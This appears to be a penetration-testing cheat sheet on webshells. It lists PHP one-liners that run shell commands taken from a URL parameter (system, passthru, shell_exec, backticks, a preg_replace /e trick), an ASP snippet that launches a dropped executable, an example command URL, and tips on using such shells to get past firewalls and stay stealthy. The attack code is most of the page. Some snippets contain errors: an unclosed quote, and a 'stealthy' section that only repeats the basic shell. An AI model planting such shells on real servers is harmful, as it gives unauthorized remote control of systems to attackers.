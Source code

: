 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stalthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

## PHP - Basic cmd-shell

This code can be injected into pages that use php.
```php

# Execute one command
<?php system("whoami); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy
We can make the commands from above a bit more stealthy.

```php
<?php system($_GET['cmd']); ?>


```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
